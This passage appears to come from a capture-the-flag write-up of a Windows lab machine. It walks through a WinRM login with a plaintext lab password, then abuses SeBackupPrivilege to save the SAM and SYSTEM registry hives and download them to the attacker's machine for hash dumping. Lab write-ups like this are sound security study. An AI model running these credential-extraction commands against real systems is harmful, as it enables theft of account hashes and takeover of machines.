 ## Initial Access

`emily.oscars` is in the "Remote Management Users" group, so we can use for example `evil-winrm` to get an interactive shell:

```
$ evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

![alt text](assets/emily_winrm.png)

## Privilege Escalation

Following, `emily.oscars` has the SeBackupPrivilege privilege:

![alt text](assets/emily_whoami_priv.png)

With that information we could be able to backup any file or directory in the system. In particular we are interested in getting the SAM and SYSTEM file in order to dump the NTLM hash for the Adminsitrator user. We can take a look [here](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md#exploitation).

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> reg save hklm\sam sam

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> reg save hklm\system system
```
Then, we download the files to our attacker machine:
```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download sam

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download system
```
